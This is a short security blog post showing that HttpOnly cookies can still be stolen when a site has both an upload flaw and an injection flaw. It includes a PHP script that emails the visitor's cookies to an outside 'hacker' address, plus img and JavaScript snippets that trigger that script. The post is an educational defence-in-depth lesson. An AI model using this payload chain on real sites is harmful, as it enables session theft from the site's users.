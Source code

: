 ```yaml
---
title: HTTP Only Cookies Aren't Perfectly Secure
date: 2018-12-10
tag:
- php
- javascript
- security
---
```

When you're creating cookies on your server side application, it's good security practice to flag the cookie as HTTP Only.  This way, it instructs the browser that it should sandbox this cookie from the client side scripts.  It still will send it between client and server on each subsequent request, but javascript can't access it directly.

<!--more-->

With most things, one single mechanism isn't the only way to secure your website.  Security is multi layer in depth strategies.  That's important to understand when you are using HTTP Only cookies.

**Before you continue: please understand that this is a very contrived example. It's meant to demonstrate the possibility. It's not likely, but it's possible.**

It's still possible to steal HTTP Only cookies from your website. It's just not that easy and requires multiple vulnerabilities in your code - not just client side script injection.

### How to Steal HTTP Only Cookie

Let's look at our code that sets our cookie in our PHP server / backend application.

**`index.php`**
```php
<?php
setcookie('my-cookie', 'the value', 0, "", "", false, true);

// more code here
```

The last `true` indicates that we want to have this cookie as HTTP Only.  To verify this, I can open up my dev tools and type `window.cookie` which will return `undefined` in this example.

Next, we need to have a vulnerability that allows users to upload PHP scripts.  You might say "well if they can access PHP, they can already do a bunch of other things anyway!"  That's not true. You might have your user uploads properly secluded from the rest of your application.  Let's create a PHP file that we trick into the user uploads to run as an application.  (For this contrived example, it'll be a plain PHP file. It's possible with other vulnerabilities and misconfigurations to get image files to run as PHP, etc.)

**`/uploads/uuid-here/hacker.php`**
```php
<?php
mail('hacker@gmail.com', 'An HTTP only cookie', var_export($_COOKIE, true));
```

Since this is on the same server, it will be served with the HTTP only cookie by the browser.

The last step is to inject a request to this application the same way you'd do some client side script injection.

If you can inject HTML, you might try this:

```html
<img src="/uploads/uuid-here/hacker.php">
```

If you are unable to do that, you can still use Javascript with `fetch()` or, if you're a fan of the image, you can do this:

```javascript
var i = new Image();
i.src="/uploads/uuid-here/hacker.php";
```

### End Notes

Again, like I said, it's not easy. It would require two vulnerabilities or misconfigurations. However, it _is_ possible to steal an HTTP Only cookie.